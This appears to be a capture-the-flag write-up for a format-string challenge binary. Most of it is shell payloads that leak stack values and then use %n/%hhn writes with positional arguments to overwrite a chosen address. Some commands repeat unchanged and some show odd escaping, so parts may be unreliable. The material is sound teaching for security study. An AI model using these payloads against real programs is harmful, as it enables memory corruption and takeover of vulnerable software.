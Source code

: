 # Format string bug basic 2 writeup

Used https://www.usna.edu/Users/cs/aviv/classes/si485h/s17/units/06/unit.html as a guide.

First, lets use some simple string to look up into the stack and find our passed in argument.

```sh
./ch14 "AAAA %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x"

# returns [AAAA 0x80485f1 00000000 00000000 0x0000c2 0xbffffb74 0xb7fe1409 0xf63d4e2e 0x4030201 0x41414141 0x38783020 0x35383430 0x3020316]
# at the 0x41414141 we see our AAAA that we put in there
```

address we want to write to: 
0x bf ff fa 68

./ch14 $(printf "\x68\xfa\xff\xbf").%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#08x

We want to write to the address 0xbffffa68. So we put that address as the very first part of our string so that we can refer to it when popping elements off the stack and writing to that address using %n.

The result is:
./ch14 $(printf "\x68\xfa\xff\xbf").%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%n

which yields us with being on the right way.

Since our buffer size at most is 128, we need to do this by doing this cleverly.

./ch14 $(printf "\x4b\xfa\xff\xbf")$(printf "\x4a\xfa\xff\xbf")$(printf "\x49\xfa\xff\xbf")$(printf "\x48\xfa\xff\xbf")%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#146x.%hhn.%hhn

address changed again!
./ch14 $(printf "\x4b\xfa\xff\xbf")$(printf "\x4a\xfa\xff\xbf")$(printf "\x49\xfa\xff\xbf")$(printf "\x48\xfa\xff\xbf")%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#08x.%#146x.%hhn.%hhn

./ch14 $(printf "\x4b\xfa\xff\xbf")$(printf "\x4a\xfa\xff\xbf")$(printf "\x49\xfa\xff\xbf")$(printf "\x48\xfa\xff\xbf").%1\$07x.%9\$hhn.%1\$08x.%\10\$hhn.%1\$08x.%\11\$hhn.%1\$08x.%\12\$hhn

./ch14 $(printf "\x4b\xfa\xff\xbf")$(printf "\x4a\xfa\xff\xbf")$(printf "\x49\xfa\xff\xbf")$(printf "\x48\xfa\xff\xbf").%1\$204x.%9\$hhn.%1\$205x.%\10\$hhn.%1\$15x.%\11\$hhn.%1\$47x.%\12\$hhn


